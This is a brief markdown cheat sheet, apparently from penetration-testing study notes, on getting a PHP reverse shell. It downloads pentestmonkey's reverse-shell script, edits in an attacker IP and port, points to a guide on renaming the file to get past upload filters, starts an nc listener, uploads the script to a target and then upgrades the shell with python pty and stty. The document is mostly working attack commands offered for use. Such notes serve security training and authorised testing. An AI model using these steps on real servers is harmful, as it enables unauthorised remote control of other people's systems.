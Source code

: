 # PHP reverse shell

First, download the script:

    curl -LO https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Change `ip` and `port` in the script (use `ip addr` for ip, `port` can be anything that's available):

    nano php-reverse-shell.php

Also probably rename, see [Bypass File Upload Filtering](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html).

Next, start `nc`:

    nc -lvnp <port>

Finally, upload the script to the server, and open the newly created link.

To upgrade the dumb shell:

    python -c 'import pty; pty.spawn("/bin/bash")'
    # Ctrl-Z
    stty raw -echo
    fg
    reset
    # Set terminal to vt100
